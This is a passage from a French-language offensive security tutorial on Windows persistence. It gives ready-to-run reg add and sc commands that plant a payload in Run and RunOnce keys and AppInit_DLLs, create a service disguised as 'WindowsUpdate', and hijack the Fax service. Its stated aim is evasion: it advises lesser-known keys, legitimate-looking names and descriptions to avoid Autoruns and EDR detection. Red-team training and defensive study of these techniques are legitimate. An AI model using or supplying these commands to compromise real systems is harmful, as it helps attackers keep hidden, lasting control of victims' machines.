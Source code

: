 ### Clés de registre Run

Les clés de registre Run et RunOnce sont des mécanismes classiques pour exécuter des programmes au démarrage de Windows ou à la connexion d'un utilisateur. Plusieurs emplacements peuvent être utilisés :

```
# Exécution pour tous les utilisateurs au démarrage
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsService" /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f

# Exécution pour l'utilisateur actuel à la connexion
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsService" /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f
```

Ces commandes ajoutent une entrée nommée "WindowsService" qui exécutera payload.exe au démarrage du système (HKLM) ou à la connexion de l'utilisateur (HKCU).

Des variantes moins connues et donc moins surveillées incluent :

```
# RunOnce avec point d'exclamation (ignore l'exécution réussie)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce" /v "!WindowsUpdate" /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f

# Explorer Load
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" /v "AppInit_DLLs" /t REG_SZ /d "C:\Windows\Temp\malicious.dll" /f
```

Du point de vue OPSEC, les clés Run sont parmi les premiers endroits vérifiés lors d'une investigation de sécurité. Les outils comme Autoruns et les solutions EDR surveillent activement ces emplacements. Pour une meilleure discrétion, il est préférable d'utiliser des variantes moins connues ou de combiner cette technique avec d'autres mécanismes de persistance.

### Services Windows

Les services Windows offrent un mécanisme de persistance robuste avec des privilèges élevés. Ils s'exécutent indépendamment des sessions utilisateur et peuvent démarrer automatiquement avec le système.

Pour créer un service qui exécute une charge utile :

```
sc create "WindowsUpdate" binpath= "C:\Windows\Temp\payload.exe" start= auto
sc description "WindowsUpdate" "Provides automatic updates for Windows installations"
```

Ces commandes créent un service nommé "WindowsUpdate" qui démarre automatiquement et exécute payload.exe. La description plausible aide à dissimuler le service malveillant parmi les services légitimes.

Pour une approche plus discrète, on peut modifier un service existant mais rarement utilisé :

```
sc config "Fax" binpath= "C:\Windows\Temp\payload.exe"
sc start "Fax"
```
